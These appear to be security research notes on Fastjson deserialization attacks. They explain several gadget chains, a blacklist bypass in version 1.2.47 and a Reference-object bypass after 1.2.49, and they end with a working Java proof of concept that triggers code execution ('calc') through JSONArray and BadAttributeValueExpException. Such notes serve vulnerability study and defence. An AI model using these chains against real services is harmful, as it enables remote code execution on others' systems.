 # Fastjson deserialization

## Analysis

In `Fastjson`, when `AutoType` support is enabled, the `JSON.parse()` method deserializes the class specified by `@type` key to a json string, and the `JSON.parseObject()` method deserializes the json string to the class specified by the method parameter.

When creating a class instance, it will call the `setter` and `getter` methods that meet the conditions in the class through reflection. And it is just the source of the vulnerability.

## TemplatesImpl chain

The `getOutputProperties()` method of the `TemplatesImpl` class calls the `newTransformer()`, so it's obvious. However, we need to note that the `Fastjson` does not deserialize private properties by default. Therefore, it is necessary to enable `SupportNonPublicField` support in order to utilize this chain.

## JdbcRowSetImpl chain

The `setAutoCommit()` method of the `JdbcRowSetImpl` class calls the `connect()` method of the `Connection` class. In the `connect()` method, the `InitialContext.lookup()` method is called, which means the JNDI injection. And the `lookup()` method parameter is the `dataSource` field of the `JdbcRowSetImpl` class.

## BasicDataSource chain

The `getConnection()` method of the `BasicDataSource` class calls the `createDataSource()` method and then calls the `createConnectionFactory()` method. In the `createConnectionFactory()` method, `Class.forName(driverClassName, true, driverClassLoader)` method is called to load a driver class, and then the driver class is instantiated. So that the static code block in the class specified by `driverClassName` will be executed. Therefore, we can set the `driverClassLoader` to the `com.sun.org.apache.bcel.internal.util.ClassLoader` and set the `driverClassName` to a string of malicious class bytecodes to load it through the BCEL Classloader.

### BCEL Classloader

The BCEL classloader can deserialize bytecodes into a class, which overrides the Java native `ClassLoader.loadClass()` method. In its `loadClass()` method, it first checks if this string of bytecodes starts with the `$$BCEL$$` string, and if so, subsequent bytecodes will be decoded.

## Fastjson-1.2.47

In the `fastjson-1.2.47`, it doesn't just set the whitelist and blacklist to filter the types of deserialized classes. And if the class is in the blacklist, it will lookup the corresponding class from `TypeUtils.mappings` and `deserializers`. However it can be exploited to bypass the whitelist and blacklist.

If the `@type` key is the `Class`, it will be handled through `MiscCodec.deserialze()` and the corresponding value will be the parameter of the `TypeUtils.loadClass()` to be called. In the `loadClass()` method, the value will be added into the `TypeUtils.mappings`.

Therefore, set the value to the evil class name, so that we can load the evil class to bypass the whitelist and blacklist.

## Native deserialization

Native deserialization refers to the use of Java native deserialization `ObjectInputStream.readObject()` as the source to trigger deserialization vulnerabilities.

In `Fastjson`, the `JSONArray` class inherits the Serializable interface, and has a `toString()` method. In that method, the `toJSONString()` method will be called, which in turn triggers the `getter` method of the specified class. Therefore, we can trigger a deserialization vulnerability by calling the `toString()` method of the `JSONArray` class from the `readObject()` method of the `BadAttributeValueExpException` class.

However, starting from `Fastjson-1.2.49`, the `JSONArray` class has implemented the `readObject()` method, which checks the type of the class to be deserialized by calling the `SecureObjectInputStream.resolveClass()` method. Fortunately, due to incorrect coding, deserializing the `Reference` class can bypass the call to the `resolveClass()` method.  At the same time, when adding the same object to the `List`, `Set`, and `Map` classes, the duplicated object will be written as the `Reference` class.

### Code

```java
import com.alibaba.fastjson.JSONArray;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.Reflections;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Exp {
    public static void main(String[] args) throws Exception {
        Object template = Gadgets.createTemplatesImpl("calc");

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(template);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field declaredField = badAttributeValueExpException.getClass().getDeclaredField("val");
        Reflections.setAccessible(declaredField);
        declaredField.set(badAttributeValueExpException, jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(template, badAttributeValueExpException);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}
```
